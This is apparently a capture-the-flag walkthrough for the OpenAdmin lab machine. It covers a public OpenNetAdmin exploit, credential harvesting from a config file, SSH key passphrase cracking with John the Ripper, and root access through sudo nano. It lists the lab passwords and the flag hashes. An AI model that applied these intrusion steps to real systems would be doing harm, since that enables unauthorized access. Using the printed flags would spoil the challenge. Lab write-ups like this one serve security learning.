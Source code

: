 


### Foothold
execute the exploit.sh to get a shell (found it from exploitdb
  when searched for OpenNetAdmin)


### User #1
got access to www-data user
$ cd local/config/; cat database_settings.inc.php

and get a pass

n1nj4W4rri0R!

this is for user jimmy


ssh jimmy@10.10.10.171 worked






### User #2

reading the /var/internal/ files we understand that we must do a curl with

curl -X POST http://10.10.10.171/internal/main.php -d 'username=jimmy&password=Revealed'

and we dont get a response



login to jimmy and exec the following

$ netstat -l

and we find a hidden port open, the 52846

curl -d "username=jimmy&password=Revealed" -X POST http://localhost:52846/main.php


now we got an rsa key for joanna as the main.php file says. we save it as joanna-id-rsa
if we do
$ chmod 600 joanna-id-rsa
$ ssh -i joanna-id-rsa joanna@10.10.10.171
we get asked for a passphrase

we use
ssh2john
$ python ~/JohnTheRipper/run/ssh2john.py ~/Documents/stationary/htb/boxes/openadmin/joanna-id-rsa > tocrack
$ john --wordlist=/usr/share/wordlists/rockyou.txt tocrack

passphrase is :
bloodninjas

login with
$ ssh -i joanna-id-rsa joanna@10.10.10.171

$ cat user.txt
c9b2cf07d40807e62af62660f0c81b5f



### root

while in joanna user, type sudo -l

execute the command, and then GTFOBins for nano

root hash:
2f907ed450b361b2c2bf4e8795d5b561

